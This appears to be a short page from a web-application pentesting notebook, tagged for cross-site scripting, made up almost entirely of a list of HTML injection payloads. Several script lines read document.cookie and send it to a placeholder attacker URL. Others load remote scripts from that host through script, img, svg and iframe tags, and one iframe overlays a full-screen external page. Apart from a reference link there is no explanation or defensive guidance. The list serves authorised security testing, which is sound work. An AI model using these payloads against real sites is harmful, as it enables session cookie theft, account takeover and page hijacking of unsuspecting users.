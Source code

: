 ```yaml
---
author(s):
  - Userware
tags:
  - helpers
  - webapp-pentesting
  - cross-site-scripting
---
```

# HTML Attributes

A list of payloads to inject links

```
<script>new Image().src="http[s]://<attacker_URL>/cookies.php?cookie="+document.cookie;</script>
<script>document.location="http[s]://<attacker_URL>/cookies.php?cookie="+document.cookie</script>
<script>window.location="http[s]://<attacker_URL>/cookies.php?cookie="+document.cookie</script>

<script src="http[s]://<attacker_URL>/script.js"></script>
<img src="http[s]://<attacker_URL>/script.js">
<svg src="http[s]://<attacker_URL>/script.js">
<iframe src="http[s]://<attacker_URL>/script.js">
"><iframe src="https://www.cia.gov/" style="border: 0; position: fixed; top: 0; left: 0; right: 0; bottom: 0; width: 100%; height: 100%">
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/D - Webapp Pentesting/Injection/Client-Side Attack/HTML Injection/Helpers/Detection|HTML Injection: Helpers]]